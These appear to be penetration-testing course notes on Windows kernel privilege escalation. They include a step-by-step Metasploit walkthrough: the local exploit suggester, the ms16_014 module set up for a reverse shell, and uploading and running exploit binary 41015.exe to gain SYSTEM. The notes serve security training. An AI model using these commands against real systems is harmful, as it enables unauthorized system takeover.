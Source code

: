 # Windows Kernel Exploits

## Privilege Escalation
- Privilege Escalation involves exploiting vulnerabilities or misconfigurations to elevate access from a standard user to one with administrative or root privileges.
- This is critical in a penetration test to gain full control of a system after an initial compromise.
- Once a foothold is gained, escalating privileges allows you to perform tasks that require higher-level access.

## Windows Kernel
- The Kernel is the core component of an operating system, managing system resources and hardware interactions.
- **Windows NT Kernel**: Used by all versions of Microsoft Windows, with two main operation modes:
  - **User Mode**: Limited access to system resources, typically for standard applications and services.
  - **Kernel Mode**: Full access to system resources, used by the OS to manage hardware and execute critical system functions.
  
- Exploiting the Windows kernel allows code execution with the highest system privileges, potentially leading to full control over the target system.

## Windows Kernel Exploitation
- **Targeting Vulnerabilities**: Windows kernel exploits focus on specific vulnerabilities to execute code with elevated privileges.
- **Privilege Escalation Process**:
  - Identify kernel vulnerabilities.
  - Download, compile, and transfer kernel exploits to the target system.

## Tools & Environment
- **Windows Exploit Suggester**: Compares the target's patch levels against a vulnerability database to detect missing patches and potential exploits.
- **Windows-Kernel-Exploits**: A collection of Windows Kernel exploits sorted by CVE.

## Demo

1. **List Active Sessions**  
   `sessions`  
   - Lists all active sessions. Identifies available sessions, such as a PowerShell or Meterpreter session.

2. **Attempt Privilege Escalation with Meterpreter**  
   `getsystem`  
   - Attempts to elevate privileges to system level within the current session.

3. **Search for the Exploit Suggester Module**  
   `search suggester`  
   - Searches for modules related to exploit suggestion in Metasploit. Prepares to use the Windows Exploit Suggester.

4. **Select the Exploit Suggester Module**  
   `use 0`  
   - Selects the first module from the search results.

5. **Show Module Options**  
   `show options`  
   - Displays configurable options for the selected module.

6. **List Active Sessions Again**  
   `sessions`  
   - Lists sessions to identify the session number needed for further exploitation.

7. **Run the Exploit Suggester**  
   `run`  
   - Enumerates vulnerabilities on the target system and suggests applicable Metasploit modules.

8. **Use the Suggested Kernel Exploit**  
   `use exploit/windows/local/ms16_014_wmi_recv_notif`  
   - Loads the specific kernel exploit module for privilege escalation.

9. **Show Exploit Options**  
   `show options`  
   - Displays the settings required for the loaded exploit module.

10. **Set the Session ID**  
    `set SESSION 3`  
    - Specifies the session to use for the exploit. Adjust according to the active session ID.

11. **Set Local Port**  
    `set LPORT 4422`  
    - Configures the local port for the reverse shell connection.

12. **Execute the Kernel Exploit**  
    `exploit`  
    - Runs the exploit, attempting to gain elevated privileges on the target system.

13. **Check User Identity Post-Exploitation**  
    `getuid`  
    - Confirms the current user’s identity to verify successful privilege escalation.

14. **Background the Current Session**  
    `background`  
    - Backgrounds the current session, keeping it active while allowing further actions.

15. **Switch to the Unprivileged Session**  
    `session 3`  
    - Switches to an unprivileged session for verification.

16. **Check User Identity Again**  
    `getuid`  
    - Verifies the identity in the unprivileged session.

### Using Windows Exploit Suggester

1. **Open a Shell on the Target**  
   `shell`  
   - Drops to a command shell on the target system.

2. **Gather System Information**  
   `systeminfo`  
   - Collects system information, including installed hotfixes, to assess vulnerabilities.

3. **Copy System Information to a Text File**  
   - Create a text file (`win7.txt`) to save `systeminfo` output for further analysis.

4. **Update the Exploit Suggester Database**  
   `./windows-exploit-suggester.py --update`  
   - Updates the vulnerability database for the Windows Exploit Suggester tool.

5. **Run the Exploit Suggester**  
   `./windows-exploit-suggester.py --database 20xx-xx-xx-mssb.xls --systeminfo ~/Desktop/win7.txt`  
   - Compares the system info with the database to suggest applicable exploits.

6. **Transfer the Exploit to the Target System**  
   `upload ~/Downloads/41015.exe`  
   - Uploads the selected exploit binary to the target system.

7. **Navigate to the Temp Directory**  
   `cd C:\\tEMP`  
   - Moves to the temporary directory on the target system, a safe location to execute the exploit.

8. **Execute the Exploit**  
   `.\41015.exe`  
   - Runs the uploaded kernel exploit on the target system.

9. **Check for Elevated Privileges**  
   `whoami`  
   - Confirms successful privilege escalation by checking the user identity, expecting "nt authority\system".
  
  THis metasploit module can be used to identify kernel exploits on a target::
  multi/recon/local_exploit_suggester

# Bypassing UAC With UACMe 

  
